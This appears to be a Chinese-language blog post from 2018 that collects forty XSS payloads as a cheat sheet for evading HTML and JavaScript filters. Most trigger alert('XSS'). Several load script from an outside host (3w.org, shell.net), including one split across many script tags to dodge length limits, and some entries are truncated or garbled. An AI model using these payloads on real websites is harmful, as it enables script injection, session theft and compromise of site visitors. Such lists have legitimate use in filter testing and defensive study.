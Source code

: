 ```yaml
---
title: XSS payload
date: 2018-10-14 18:11:03
tags:
- XSS
- Payload
- web-security
categories:
- web-security
---
```


总结了常用的XSS payload
<!--more-->

1.普通的XSS JavaScript注入

    <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

2.IMG标签XSS使用JavaScript命令

    <IMG SRC=1 ONERROR=alert('XSS')>

3.IMG标签无分号无引号

    <IMG SRC=javascript:alert('XSS')>

4.IMG标签大小写不敏感

    <IMG SRC=JaVaScRiPt:alert('XSS')>

5.HTML编码(必须有分号)

    <IMG SRC=javascript:alert("XSS")>

6.修正缺陷IMG标签

    <IMG """><SCRIPT>alert("XSS")</SCRIPT>">

7.formCharCode标签(计算器)

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

8.UTF-8的Unicode编码(计算器)

    <IMG SRC=jav..省略..S')>

9.7位的UTF-8的Unicode编码是没有分号的(计算器)

    <IMG SRC=jav..省略..S')>

10.十六进制编码也是没有分号(计算器)

    <IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

11.嵌入式标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

12.嵌入式编码标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

13.嵌入式换行符

    <IMG SRC="jav ascript:alert('XSS');">

14.嵌入式回车

    <IMG SRC="jav ascript:alert('XSS');">

15.嵌入式多行注入JavaScript,这是XSS极端的例子

    <IMG SRC="javascript:alert('XSS')">

16.解决限制字符(要求同页面)

    <script>z='document.'</script>
    <script>z=z+'write("'</script>
    <script>z=z+'<script'</script>
    <script>z=z+' src=ht'</script>
    <script>z=z+'tp://ww'</script>
    <script>z=z+'w.shell'</script>
    <script>z=z+'.net/1.'</script>
    <script>z=z+'js></sc'</script>
    <script>z=z+'ript>")'</script>
    <script>eval_r(z)</script>

17.空字符

    perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

18.空字符2,空字符在国内基本没效果.因为没有地方可以利用

    perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

19.Spaces和meta前的IMG标签

    <IMG SRC=" javascript:alert('XSS');">

20.Non-alpha-non-digit XSS

    <SCRIPT/XSS SRC="http://3w.org/XSS/xss.js"></SCRIPT>

21.Non-alpha-non-digit XSS to 2

    <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

22.Non-alpha-non-digit XSS to 3

    <SCRIPT/SRC="http://3w.org/XSS/xss.js"></SCRIPT>

23.双开括号

    <<SCRIPT>alert(a.sourse);//<</SCRIPT>

24.无结束脚本标记(仅火狐等浏览器)

    <SCRIPT SRC=http://3w.org/XSS/xss.js?<B>

25.无结束脚本标记

    <SCRIPT SRC=//3w.org/XSS/xss.js>

26.半开的HTML/JavaScript XSS

    <IMG SRC="javascript:alert('XSS')"

27.双开角括号

    <iframe src=http://3w.org/XSS.html >

28.无单引号、双引号、分号

    <SCRIPT>a=/XSS/ alert(a.source)</SCRIPT>

29.换码过滤的JavaScript

    \";alert('XSS');//

30.结束Title标签

    </TITLE><SCRIPT>alert("XSS");</SCRIPT>

31.Input Image

    <INPUT SRC="javascript:alert('XSS');">

32.BODY Image

    <BODY BACKGROUND="javascript:alert('XSS')">

33.BODY标签

    <BODY('XSS')>

34.IMG Dynsrc

    <IMG DYNSRC="javascript:alert('XSS')">

35.IMG Lowsrc

    <IMG LOWSRC="javascript:alert('XSS')">

36.BGSOUND

    <BGSOUND SRC="javascript:alert('XSS');">

37.STYLE sheet

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

38.远程样式表

    <LINK REL="stylesheet" HREF="http://3w.org/xss.css">

39.List-style-image(列表式)

    <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

40.IMG VBscript

    <IMG SRC='vbscript:msgbox("XSS")'></STYLE><UL><LI>XSS